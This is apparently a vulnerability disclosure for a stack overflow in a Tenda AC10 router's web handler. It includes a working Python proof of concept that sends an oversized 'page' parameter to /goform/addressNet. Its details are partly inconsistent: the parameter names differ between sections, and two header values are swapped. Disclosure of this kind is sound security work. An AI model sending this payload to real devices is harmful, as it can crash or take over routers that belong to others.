 # Tenda router sub_49B384 function stack overflow vulnerability

> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.20
>
> type:Stack Overflow

## Vulnerability Description

Tenda AC10V4.0 V16.03.10.20 were discovered to contain a stack overflow via the page parameter in the sub_49B384 function.

## Vulnerability Details

In the function, the Websgetvar function is called in line 13 and 14 to obtain a variable named "Entrys" and "Mitinterface" in the Web request, store its values ​​in pointer variable V2 and V4, and then pass the two variables directly to the Sprintf function. Without any length check, this may cause the stack buffer overflow. Therefore, by requesting this page, the attacker can leverage well-designed overflow dataly execute the rejection service attack or remote code execution.

![sub_49B384](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/661309ba-38a0-49c8-b369-10023536b75e)


## POC

    import socket
    import os
    from pwn import *

    li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
    ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

    ip = '192.168.244.130'
    port = 80

    r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    li('[+] connecting')
    r.connect((ip, port))
    li('[+] connect finish')

    rn = b'\r\n'

    p1 = b'A' * 0x500

    p2 = b'page=' + p1

    p3 = b"POST /goform/addressNet" + b" HTTP/1.1" + rn
    p3 += b"Host: 192.168.244.130" + rn
    p3 += b"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36" + rn
    p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
    p3 += b"Accept-Language: gzip, deflate" + rn
    p3 += b"Accept-Encoding: zh-CN,zh;q=0.9" + rn
    p3 += b"Cookie: password=awg1qw" + rn
    p3 += b"Connection: close" + rn
    p3 += b"Upgrade-Insecure-Requests: 1" + rn
    p3 += (b"Content-Length: %d" % len(p2)) +rn
    p3 += b'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'+rn
    p3 += rn
    p3 += p2

    li('[+] sending payload')
    r.send(p3)

    response = r.recv(4096)
    response = response.decode()
    li(response)


